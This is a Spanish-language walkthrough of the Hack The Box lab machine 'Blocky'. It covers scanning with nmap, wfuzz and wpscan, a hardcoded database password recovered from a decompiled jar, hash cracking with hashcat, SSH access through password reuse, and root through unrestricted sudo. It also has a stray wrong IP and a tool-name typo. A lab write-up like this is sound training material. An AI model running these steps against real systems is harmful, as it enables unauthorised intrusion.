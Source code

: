 # Blocky
![alt text](image.png)
<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      <img src="portadas/Blocky.png" alt="Blocky" style="max-width:320px; width:100%; height:auto;"/>
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>WordPress Enumeration</li>
        <li>Information Leakage</li>
        <li>Analyzing a jar file - JD-Gui +SSH Access</li>
        <li>Abusing Sudoers Privilege</li>
      </ul>
    </td>
  </tr>
</table>

## Enumeración basica 

Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.37 -oG allports
```

```shell
PORT   STATE SERVICE REASON
PORT      STATE SERVICE   REASON
21/tcp    open  ftp       syn-ack ttl 63
22/tcp    open  ssh       syn-ack ttl 63
80/tcp    open  http      syn-ack ttl 63
25565/tcp open  minecraft syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguientes puertos encontrados:

```shell
nmap -sCV -p21,22,80,25565 10.10.10.245 -oN targeted
```

```shell
PORT      STATE SERVICE   VERSION
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18
|_http-generator: WordPress 4.8
|_http-title: BlockyCraft &#8211; Under Construction!
|_http-server-header: Apache/2.4.18 (Ubuntu)
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Se puede apreciar que la versión de OpenSSH es vulnerable a la enumeración de usuarios sin embargo a priori no tenemos ningún usuario con el que probar.

## Enumeración de directorios 

Primero examinamos que es lo que contiene la página, podemos ver que nos encontramos ante un `Wordpress` 

```shell
whatweb http://10.10.10.37
http://10.10.10.37 [302 Found] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.37], RedirectLocation[http://blocky.htb], Title[302 Found]

http://blocky.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.37], JQuery[1.12.4], MetaGenerator[WordPress 4.8], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[BlockyCraft &#8211; Under Construction!], UncommonHeaders[link], WordPress[4.8]

```

Usando WFUZZ vamos a enumerar los diferentes directorios interesantes donde nos podemos encontrar algo.

```shell
wfuzz -c --hc=404,200 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://blocky.htb/FUZZ
```
Esta es la salida que recibimos:

```shell
000000241:   301        9 L      28 W       313 Ch      "wp-content"                                  
000000519:   301        9 L      28 W       310 Ch      "plugins"                                     
000000786:   301        9 L      28 W       314 Ch      "wp-includes"                                 
000001073:   301        9 L      28 W       313 Ch      "javascript"                                  
000000190:   301        9 L      28 W       307 Ch      "wiki"                                        
000007180:   301        9 L      28 W       311 Ch      "wp-admin"                                    
000010825:   301        9 L      28 W       313 Ch      "phpmyadmin"
```
Examinando los directorios nos encontramos con un panel de login de wordpress por lo tanto vamos a intentar comprobar si podemos enumerar algún usuario válido.

Para ello voy a utilizar `wpscan` es una herramienta que autmatiza la búsqueda pero es muy útil.

```shell
wpscan --url http://blocky.htb --enumerate u
```
Tras el escaneo encontramos un usuario válido `notch`

```shell
[i] User(s) Identified:
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```
Tras probar diferentes ataque de fuerza bruta con `hydra` con ese usuario y el diccionario `rockyou.txt`
no encontramos ninguna contraseña válida por lo tanto no puede ser por ahí.

## Investigamos los demás directorios /plugins

Tras investigar otros directorios encuentro en el directorio plugins dos ficheros que me puedo descargar.

![alt text](Imagenes/Blocky1.png)

Nos lo descargamos y probamos a ejecutarlo y ver que contiene.Si abrimos el archivo `BlockyCore.jar` utilizando la herramienta `jd-gui` nos encontramos con un fichero muy interesante.
```shell
js-gui BlockyCore.jar
```
```java 
package com.myfirstplugin;
public class BlockyCore {
  public String sqlHost = "localhost";
  public String sqlUser = "root";
  public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
  public void onServerStart() {}
  public void onServerStop() {}
  public void onPlayerJoin() {
    sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
  }
  public void sendMessage(String username, String message) {}
}
```
Contiene un usuario y una contraseña de una base de datos, posiblemente del `phpmyadmin`

```shell
user:root
passwd:8YsqfCTnvxAUeduzjNSXe22
```

Efectivamente es la contraseña de la base de datos , cuando entramos nos escontramos con varias tablas y una de `users` con un usuario:

```shell
user:root
passwd:$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/
```
## Intentando crackear el hash

Utilizando la herramienta `hashid` podemos identificar el tipo de hash para posteriormente intentar romperlo con `hashcat`

```shell
hashcat -m 400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
sin embargo vemos como no nos devuleve ningún resultado.

## Intrusión ssh

Otra opción es intentar acceder al servicio ssh con esta contraseña proporcionada tanto con `root` como con `notch`.

```shell
ssh notch@10.10.10.37
```
Vemos que podemos acceder por ssh usando las credenciales anteriores.

## Escalada de privilegios 

Para la escalada de privilegios hacemos el análisis habitual primero compruebo si puedo usar algún comando con sudo desde el usuario que estoy.

```shell
sudo -l 
```
```shell
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Podemos ejecutar cualquier comando con `sudo` por lo tanto la escalada es tan fácil como ejecutar el siguiente comando:

```shell
sudo -u root bash
```












